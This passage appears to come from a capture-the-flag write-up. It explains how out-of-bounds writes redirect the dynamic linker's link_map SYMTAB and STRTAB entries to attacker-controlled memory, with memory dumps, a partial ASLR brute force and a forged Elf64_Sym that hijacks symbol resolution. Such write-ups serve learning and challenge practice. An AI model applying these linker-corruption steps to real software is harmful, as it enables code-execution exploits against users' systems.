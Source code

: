 As explained before, we change the `link_map` such that `SYMTAB` and `STRTAB` are after `gbuf` and hence can be controlled by us as well, with the OOB writes.
To achieve that, I overwrite the lowest two bytes of the `Elf64_Dyn` pointer for `SYMTAB` and `STRTAB`, such that it now points inside the `l_info` array.
Therefore, `d_un` would contain pointers that were pointing somewhere relative to `libmod` and I could then overwrite the lowest two bytes of that pointer again to make `SYMTAB` and `STRTAB` point to after `gbuf`:

```c
// before overwrite
0x7ffff7fb9e98: Elf64_Dyn { d_tag = 5, d_un = 0x7ffff7fb6460 }
0x7ffff7fb9ea8: Elf64_Dyn { d_tag = 6, d_un = 0x7ffff7fb6328 }
// ...
0x7ffff7fbb220: link_map {
    // ...
    l_info[5] = 0x7ffff7fb9e98,
    l_info[6] = 0x7ffff7fb9ea8,
    // ...
0x7ffff7fbb330:
    l_info[26] = 0x7ffff7fb9e68,
    l_info[27] = 0x7ffff7fb9e58,
    // ...
}

// after overwrite
0x7ffff7fbb220: link_map {
    // ...
    l_info[5] = 0x7ffff7fbb330,
    l_info[6] = 0x7ffff7fbb330,
    // ...
0x7ffff7fbb330: Elf64_Dyn { d_tag = 0x7ffff7fb9e68, d_un = 0x7ffff7fba098 } // interpretation of two entries below
    l_info[26] = 0x7ffff7fb9e68,
    l_info[27] = 0x7ffff7fba098,
    // ...
}
```

**Note:** Since only the lowest 3 nibbles are not randomized by ASLR, this requires us to bruteforce the 4th nibble. It is only a 4-bit brute force though, so it is fine.
The official solution has a much better idea. Instead, we can just make the `l_info` entires for `SYMTAB` and `STRTAB` use the entry for a different section, that is much closer to `gbuf`, such as the `.got.plt` section.

Once we have `SYMTAB` and `STRTAB` under our control, it becomes pretty simple.
Observe the index into `SYMTAB` used for the `exit_imm` resolution, then create a fake symbol at that offset:

```c
Elf64_Sym {
    st_name = 0, // useful, since this means we need to call modify less often
    st_info = ELF64_ST_INFO(STB_GLOBAL, STT_FUNC),
    st_other = 0,
    st_shndx = 0xe,
    st_value = 0x1054, // whatever we want to call, this specific one will be explained later
    st_size = 0,
}
```


[^1]: Very much appreciated, I think more CTFs should start providing source for pwn challenges that do not need (IMO) unnecessary rev components.
[^2]: Or at least not without some eldritch magic, as you will see later ;)
[^4]: This is important and took me way too long to use to my advantage.
[^5]: There is a flag in the `link_map` that turns the absolute addresses `d_un.d_ptr` into relative offsets from `link_map.l_addr`, but that ended up not being useful in my exploit.